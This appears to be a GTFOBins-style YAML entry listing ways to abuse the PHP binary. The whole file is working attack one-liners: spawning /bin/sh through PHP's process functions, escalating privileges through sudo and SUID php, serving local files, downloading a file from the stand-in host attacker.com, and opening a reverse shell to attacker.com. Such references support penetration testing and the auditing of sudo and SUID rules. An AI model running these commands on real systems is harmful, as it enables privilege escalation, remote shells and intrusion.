 ```yaml
---
functions:
  execute-interactive:
  - code: |
      export CMD="/bin/sh"
      php -r 'system(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'passthru(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'print(shell_exec(getenv("CMD")));'
  - code: |
      export CMD="/bin/sh"
      php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
  - code: |
      export CMD="/bin/sh"
      php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="/bin/sh"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

